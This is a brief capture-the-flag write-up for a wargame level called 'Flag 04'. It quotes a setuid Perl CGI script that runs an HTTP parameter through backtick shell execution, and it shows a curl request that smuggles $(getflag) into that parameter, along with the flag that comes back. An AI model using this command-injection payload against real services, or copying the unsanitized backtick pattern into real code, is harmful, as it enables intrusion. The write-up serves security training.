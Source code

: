 # Flag 04

```bash
$ ll
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout*
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*
-r-x------  1 level04 level04  675 Apr  3  2012 .profile*
```

Inside this exercice we have a Perl script, running a server on localhost:4747 and inside the code we have:

```perl
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

so if we sent something that can get executed inside the line "print `echo $y 2>&1`;" we can have the flag.

```bash
$ curl 'http://localhost:4747/level04.pl?x=$(getflag)'
ne2searoevaevoem4ov4ar8ap
```
